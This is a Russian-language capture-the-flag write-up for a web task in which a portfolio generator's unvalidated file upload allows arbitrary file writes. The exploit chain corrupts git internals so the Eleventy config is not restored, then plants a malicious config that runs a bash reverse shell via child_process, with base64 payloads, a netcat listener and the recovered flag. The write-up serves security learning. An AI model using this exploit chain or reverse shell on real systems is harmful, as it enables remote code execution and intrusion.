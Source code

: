 # Охотники за ловушками

В качестве функционала сайта выступает генератор портфолио. В исходном коде видим, что сайт принимает в параметрах 2 файла:

1. **site.json**: JSON набор данных, указанных в форме
2. **style.css**: дополнительные стили к нашему портфолио

![Burp](burp.png)

На самом же деле, сайт может обрабатывать N-ое количество файлов:

```js
for (el of req.body.config) {
    try {
        fs.writeFileSync(path.join("/app/build/", randDir, "parameters", el.name), Buffer.from(el.content, 'base64'));
    }
    catch (err) {
        fs.rmdirSync(`/app/build/${randDir}`, { recursive: true, force: true });
        fs.rmdirSync(`/app/portfolio/${randDir}/`, { recursive: true, force: true });
        return res.json({ "response": err.toString() });
    }
}
```

Также не трудно заметить, что их названия никак не валидируются, а значит у нас есть **Arbitrary Write**. <br>
После загрузки всех файлов и некоторых приготовлений происходит генерация портфолио с помощью *Eleventy*:

```bash
mkdir _data && ln -s $paramDir/site.json $buildDir/blog/_data/site.json && cp $paramDir/style.css $buildDir/blog/static/style.css
eleventy --formats=html --output=$portfolioDir
```

Теперь попробуем получить RCE. Основным вектором является файл конфигурации *.eleventy.js*. Контролируя его содержимое мы сможем выполнить JS код, однако есть некоторые трудности:

1. `git checkout -f 2>&1`: перезапишет все в корне репозитория (в том числе *.eleventy.js*)

**Решение:**
Так как репозиторий копируется до загрузки файлов пользователя, мы можем повредить объект коммита, чтобы команда не выполнилась: в нашем случае `.git/objects/a5/a0214ef71569a697cb4e63d99ca6b840b2f67d`

2. `git clean -ffdx 2>&1`: если конфиг не будет создан по каким-либо причинам, он будет удален

**Решение:**
Удалим конфиг из индекса (т.е. перезапишем `.git/index`)


Суммируя все, подготовим payload:

```bash
$ git restore --staged .eleventy.js
$ base64 -w0 < .git/index
RElSQwAAAAIAAAABAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAACBpAAAAAAAAAAAAAAAAGSD8fBxH01a7Vs1zqyy3sylSFEcAAwuZWxldmVudHkuanMAAAAAAABQYf+bDe4iBtaxxXO8t0B94lcbjw==
$ base64 -w0 <<EOF
module.exports = function(eleventyConfig) {
  require('child_process').exec('bash -c "bash -i >& /dev/tcp/ip/port 0>&1"');
  return {};
}
EOF

bW9kdWxlLmV4cG9ydHMgPSBmdW5jdGlvbihlbGV2ZW50eUNvbmZpZykgewogIHJlcXVpcmUoJ2NoaWxkX3Byb2Nlc3MnKS5leGVjKCdiYXNoIC1jICJiYXNoIC1pID4mIC9kZXYvdGNwL2lwL3BvcnQgMD4mMSInKTsKICByZXR1cm4ge307Cn0K
```

Ставим netcat и отправляем запрос:

![Окончательный payload](rce.png)

Получаем шелл ... и флаг

```bash
nc -nlvp port

$ cd /app/portfolio/a03948cd8f97124c00c4cad71c2ceaf7ba1e0a9d
$ cat index.html | grep flag
          👻 <a href="/ghost_catcher/e0c96da95479e8e54697633d1f4439c11c65eff8/flag_4713a9c72d9eec3904cc9d92176d1e489515c439.txt">Ghost trap</a> <br />
              href="/ghost_catcher/e0c96da95479e8e54697633d1f4439c11c65eff8/flag_4713a9c72d9eec3904cc9d92176d1e489515c439.txt">Project</a></div>

$ curl https://its-catcher-lnxfkuu9.spbctf.ru/ghost_catcher/e0c96da95479e8e54697633d1f4439c11c65eff8/flag_4713a9c72d9eec3904cc9d92176d1e489515c439.txt
its{1_aInT_fR41D_0F_NO_GhoST_eSPEciaLlY_NoW_WItH_caTCh3R}
```